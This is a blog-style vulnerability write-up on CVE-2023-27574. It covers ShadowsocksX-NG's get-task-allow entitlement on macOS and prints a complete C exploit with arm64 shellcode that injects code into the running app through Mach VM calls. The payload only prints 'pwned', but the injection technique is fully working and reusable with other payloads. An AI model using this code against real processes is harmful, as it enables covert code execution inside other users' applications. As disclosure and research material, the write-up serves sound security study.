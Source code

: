 ```yaml
---
title: CVE-2023-27574 - Shadowsocks-NG code execution
description: Exploiting get-task-allow for code execution
date: 2023-03-05T13:45:06.348045+01:00
toc: true
tags:
    - cve
    - vuln
    - reverse-engineering
refs:
    - https://www.google.com
    - https://www.facebook.com
draft: false
---
```


# Introduction

Recently, I started playing a bit with different methods of code injection inside the MacOS applications. 
The version of  [ShadowsocksX-NG](https://github.com/shadowsocks/ShadowsocksX-NG/releases/tag/v1.10.1) prior to `v1.10.1` has `com.apple.security.get-task-allow` entitlement.

This entitlement allows other processes to obtain the applications task. Obtaining the task means you can do with the process everything you want(code execution, memory read/write etc).

At the end of this post, we will be exploiting this to write `pwned` text to the STDOUT of the application. Nothing fancy about it, just demonstrates the  usage of mach API and a bit of shellcoding for arm64.

We will utilize mach vm API with the `thread_create_running` to execute our shellcode on macOS Ventura running on M1 using arm64 architecture.

# Analysis

Application [ShadowsocksX-NG](https://github.com/shadowsocks/ShadowsocksX-NG) is MacOS client for the original shadowsocks. Shadowsocks is a tool that helps to circumvent firewalls.

To view the entitlements, we can use `codesign -dv --entitlements :- /path/to/the/binary`

```bash
$ codesign -d --entitlements :- /Applications/ShadowsocksX-NG.app/Contents/MacOS/ShadowsocksX-NG 2> /dev/null | xmllint --format -
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "https://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
  <dict>
    <key>com.apple.security.get-task-allow</key>
    <true/>
  </dict>
</plist>
```

We can see that the application has only entitlement, and it is `com.apple.security.get-task-allow`. 

# Mach VM API

We will utilize mach vm api to exploit the entitlement:  
* `task_for_pid` - to obtain the task for the process id of ShadowsocksX-NG  
* `mach_vm_allocate` - to allocate the space inside the process  
* `mach_vm_write` - to write our shellcode inside the allocated space  
* `vm_protect` - to enable executing allocated space
* `thread_create_running` - to run our shellcode inside the process space in a new thread

The exploitation steps are:

1. obtain the pid
2. try to get applications task
3. allocate space for the shellcode
4. allocate space for the stack
5. write shellcode
6. give execute permission at the shellcode address
7. create new thread
8. execute thread

```nasm
.global _main
.align 4

_main:
        mov x0, #1

        mov x4, #0x7770                         ; write wp
        movk x4, #0x656e, lsl #16       ; write en
        movk x4, #0x0a64, lsl #32       ; write \nd
        str x4, [sp, #-8]
        mov x5, #8
        sub x1, sp, x5  

        mov x2, #6 ; length
        mov x16, #0x4
        svc #0x80

        mov x0, #6 ; exit status call
        mov x16, #1
        svc #0xffff
```

Full exploit source code:  
```c
#import <Foundation/Foundation.h>
#import <AppKit/AppKit.h>
#include <ptrauth.h>

#define STACK_SIZE 65536
#define CODE_SIZE 124

extern kern_return_t mach_vm_allocate(task_t task, mach_vm_address_t *addr, mach_vm_size_t size, int flags);
extern kern_return_t mach_vm_read(vm_map_t target_task, mach_vm_address_t address, mach_vm_size_t size, vm_offset_t *data, mach_msg_type_number_t *dataCnt);
extern kern_return_t mach_vm_write(vm_map_t target_task, mach_vm_address_t address, vm_offset_t data, mach_msg_type_number_t dataCnt);

char shellCode[] = "\x20\x00\x80\xd2\x04\xee\x8e\xd2\xc4\xad\xac\xf2\x84\x4c\xc1\xf2\xe4\x83\x1f\xf8\x05\x01\x80\xd2\xe1\x63\x25\xcb\xc2\x00\x80\xd2\x90\x00\x80\xd2\x01\x10\x00\xd4\xc0\x00\x80\xd2\x30\x00\x80\xd2\xe1\xff\x1f\xd4\x01\x00\x00\x00\x1c\x00\x00\x00\x00\x00\x00\x00\x1c\x00\x00\x00\x00\x00\x00\x00\x1c\x00\x00\x00\x02\x00\x00\x00\x80\x3f\x00\x00\x34\x00\x00\x00\x34\x00\x00\x00\xb5\x3f\x00\x00\x00\x00\x00\x00\x34\x00\x00\x00\x03\x00\x00\x00\x0c\x00\x01\x00\x10\x00\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00";

pid_t getShadowPID() {
    NSString * appPID = @"com.qiuyuzhou.ShadowsocksX-NG";
    NSArray<NSRunningApplication *> *runningShadowsocks = [NSRunningApplication runningApplicationsWithBundleIdentifier:appPID];
    
    if (runningShadowsocks == nil || [runningShadowsocks count] == 0) {
        printf("[!] Exploit failed!\n");
        exit(-1);
    }
    
    NSRunningApplication *ShadowsocksX_NG = runningShadowsocks[0];
    pid_t shadowPID = [ShadowsocksX_NG processIdentifier];
    
    return shadowPID;
}

int main(int argc, const char * argv[]) {
    pid_t shadowPID = getShadowPID();
    
    task_t remoteTask;
    kern_return_t kr = task_for_pid(current_task(), shadowPID, &remoteTask);
    
    if (kr != KERN_SUCCESS) {
        printf("[!] Failed to get ShadowsocksX-NG's task: %s\n", mach_error_string(kr));
        exit(-2);
    } else {
        printf("[+] ShadowsocksX-NG's task successfully taken over: %d\n", remoteTask);
    }

    mach_vm_address_t remoteStack = (vm_address_t)NULL;
    mach_vm_address_t remoteCode = (vm_address_t)NULL;

    kr = mach_vm_allocate(remoteTask, &remoteStack, STACK_SIZE, VM_FLAGS_ANYWHERE);

    if (kr != KERN_SUCCESS) {
        printf("Failed to allocate stack memory: %s\n", mach_error_string(kr));
    } else {
        printf("allocated stack at: 0x%llx\n", remoteStack);
    }

    kr = mach_vm_allocate(remoteTask, &remoteCode, CODE_SIZE, VM_FLAGS_ANYWHERE);

    if (kr != KERN_SUCCESS) {
        printf("Failed to allocate stack memory: %s\n", mach_error_string(kr));
    } else {
        printf("allocated code at: 0x%llx\n", remoteCode);
    }

    kr = mach_vm_write(remoteTask, remoteCode, (vm_address_t)shellCode,CODE_SIZE);

    if (kr != KERN_SUCCESS) {
        printf("Failed to write code: %s\n", mach_error_string(kr));
    } else {
        printf("written code at: 0x%llx\n", remoteCode);
    }

    kr  = vm_protect(remoteTask, remoteCode, CODE_SIZE, FALSE, VM_PROT_READ | VM_PROT_EXECUTE);

    remoteStack += (STACK_SIZE / 2);

    task_flavor_t flavor = ARM_THREAD_STATE64;
    mach_msg_type_number_t count = ARM_THREAD_STATE64_COUNT;

    arm_thread_state64_t state;

    state.__pc = (uintptr_t)remoteCode;
    state.__sp = (uintptr_t)remoteStack;

    thread_act_t thread;
    kr = thread_create_running(remoteTask, flavor, (thread_state_t)&state, count, &thread);

    if (kr != KERN_SUCCESS) {
        printf("error spawning thread: %s\n", mach_error_string(kr));
    } else {
        printf("done\n");
    }

    return 0;
}
```

![Running exploit](../images/shadow_run.png)